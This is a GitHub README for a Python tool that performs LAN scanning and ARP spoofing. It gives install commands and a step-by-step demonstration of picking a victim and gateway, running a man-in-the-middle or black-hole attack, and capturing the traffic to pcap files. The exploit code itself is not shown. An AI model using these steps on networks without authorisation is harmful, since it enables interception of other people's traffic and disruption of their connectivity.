 ## ARPSpoofing
![](https://img.shields.io/badge/platform-Linux--64-brightgreen)
![](https://img.shields.io/badge/OS-Ubuntu%2018.04%20LTS-orange)
![](https://img.shields.io/badge/python-2.7-blue)

### Description
A tool for LAN scanning, ARP attacking and packets capturing.  
For academic use only.

### Prerequisite environment setup

Install python related modules by using the following commands:  
1. `sudo apt install python`  
2. `sudo apt install python-pandas`
3. `sudo apt install python-pip`
4. `sudo pip install --upgrade pip enum34`
5. `sudo apt-get update -y`
6. `sudo apt-get install -y scapy`
7. `sudo apt-get install -y python-netifaces`

Download OUI MAC list from the following link:  
[Download MAC list](https://macaddress.io/database-download/csv)
then rename the csv file as `mac_address.csv` and place at the same directory.  
This file will be converted to database in run-time.

### Usage
`sudo python arp_spoofing.py`  
![gif](https://github.com/DuvetDays/ARPSpoofing/blob/master/arp%20spoofing_1.gif?raw=true)  
`Ctrl + C` to stop the program  
### Demonstration
[step1] Select **network interface**  
```
[Info.] Available network interface list:
[1]: lo, MAC:[{'peer': '00:00:00:00:00:00', 'addr': '00:00:00:00:00:00'}]
[2]: ens33, MAC:[{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
```
[step2] Input **IP range** of subnet that you want to scan 
```
[Info.] Network config: [{'broadcast': '192.168.0.255', 'netmask': '255.255.255.0', 'addr': '192.168.0.93'}]
[Info.] MAC info: [{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
[Enter] Please input the IP range you want to scan (e.g., 192.168.0.0/24):
```
[step3] Select **gateway** and **victim** in host list
```
[Info.] Host list:
  No.  |       IP        |         MAC         |                 Company                  
[  1  ]:   192.168.0.1   -  84:0B:7C:xx:xx:xx  -             Hitron Tech Inc              
[  2  ]:  192.168.0.20   -  44:CB:8B:xx:xx:xx  -                LG innotek                
[  3  ]:  192.168.0.32   -  C8:69:CD:xx:xx:xx  -                Apple, Inc                
[  4  ]:  192.168.0.43   -  34:13:E8:xx:xx:xx  -                Intel Corp                
[  5  ]:  192.168.0.46   -  CC:F4:11:xx:xx:xx  -               Google, Inc                
[  6  ]:  192.168.0.60   -  D4:C8:B0:xx:xx:xx  -   Prime Electronics & Satellitics Inc    
[  7  ]:  192.168.0.106  -  4C:56:9D:xx:xx:xx  -                Apple, Inc 

[Info.] Scan completed.
[Info.] Scan duration: 0:00:39.118150 sec.
[Info.] Device number in the subnet: 7
```
[step4] Select **attacking mode**  
```
[Info.] Please select an attacking mode:
[1] Man in the middle(MITM)
[2] Black Hole
[Enter] Function:
```
[step5] Select **sniffing mode** (if in MITM mode)  
```
[Info.] Please select the sniffing mode you want:
[1] All packets in the specific network interface
[2] Only packets related to the victim
[Enter] Sniffing mode:
```
[step6] Start to attack victim and record packets into .pacp file in the same directory
(p.s. you can use **wireshark** to open and trace .pcap file)
```
BlackHole_traffic_log.pcap  MITM_traffic_log.pcap
```
[step7] `Ctrl + C` to stop running program and restore the LAN automatically
```
[Exception] <type 'exceptions.KeyboardInterrupt'> 
[Info.] Start to recover the LAN.
[Info.] Please wait for a while.
[Info.] Sending real ARP replies to gateway...
........
Sent 8 packets.
[Info.] Sending real ARP replies to victim...
........
Sent 8 packets.
[Info.] The LAN has been recovered.
[Info.] Man in the middle(MITM) attack is over.
[Info.] Program is shutting down.
```
